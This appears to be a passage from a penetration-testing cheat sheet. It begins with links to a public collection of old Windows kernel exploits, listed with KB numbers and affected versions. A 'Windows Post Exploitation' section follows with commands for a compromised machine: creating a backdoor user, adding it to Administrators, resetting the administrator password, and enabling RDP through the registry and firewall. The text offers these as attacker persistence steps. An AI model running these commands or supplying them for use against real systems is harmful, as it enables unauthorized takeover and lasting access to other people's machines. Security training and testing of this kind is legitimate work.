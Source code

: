 * [MS10-012](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-012) 　\[KB971468]　　\[SMB Client Trans2 stack overflow]　　(Windows 7/2008R2)
* [MS09-050](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-050) 　\[KB975517]　　 \[Remote Code Execution]　　(2008/Vista)
* [MS09-020](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-020) 　\[KB970483]　　 \[IIS 6.0]　　(IIS 5.1 and 6.0)
* [MS09-012](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-012) 　\[KB959454]　　 \[Chimichurri]　　(Vista/win7/2008/Vista)
* [MS08-068](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS08-068) 　\[KB957097]　　 \[Remote Code Execution]　　(2000/XP)
* [MS08-067](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS08-067) 　\[KB958644]　　 \[Remote Code Execution]　　(Windows 2000/XP/Server 2003/Vista/Server 2008)
* [MS08-066](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS08-066) 　\[KB956803]　　 \[AFD.sys]　　(Windows 2000/XP/Server 2003)
* [MS08-025](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS08-025) 　\[KB941693]　　 \[Win32.sys]　　(XP/2003/2008/Vista)
* [MS06-040](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS06-040) 　\[KB921883]　　 \[Remote Code Execution]　　(2003/xp/2000)
* [MS05-039](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS05-039) 　\[KB899588]　　 \[PnP Service]　　(Win 9X/ME/NT/2000/XP/2003)
* [MS03-026](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS03-026) 　\[KB823980]　　 \[Buffer Overrun In RPC Interface]　　(/NT/2000/XP/2003)

### Windows Post Exploitation

#### Adding a new user

```
Net user Motasem Motasem /add
```

#### Adding the user to the administrators group

```
Net localgroup /add Administrators Motasem 
```

#### Changing the admin password

```
Net user Administrator [new-pass]
```

#### Enabling RDP to Log-in

This technique is useful when you add a user to the compromised machine and you want to log in with that user using RDP from your machine.

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

Then enable RDP in the firewall to allow the incoming connection

```
netsh firewall set service remoteadmin enable netsh firewall set service remotedesktop enable
```
